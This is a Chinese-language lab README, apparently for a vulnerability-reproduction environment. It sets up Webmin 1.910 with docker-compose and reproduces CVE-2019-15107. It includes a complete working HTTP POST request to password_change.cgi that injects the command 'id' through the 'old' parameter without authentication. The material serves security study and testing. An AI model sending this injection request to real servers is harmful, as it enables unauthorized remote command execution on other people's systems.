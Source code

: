 # Webmin 远程命令执行漏洞（CVE-2019-15107）

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

参考链接：

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## 环境搭建

执行如下命令，启动webmin 1.910：

```
docker-compose up -d
```

执行完成后，访问`https://your-ip:10000`，忽略证书后即可看到webmin的登录页面。

## 漏洞复现

参考链接中的数据包是不对的，经过阅读代码可知，只有在发送的user参数的值不是已知Linux用户的情况下（而参考链接中是`user=root`），才会进入到修改`/etc/shadow`的地方，触发命令注入漏洞。

发送如下数据包，即可执行命令`id`：

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
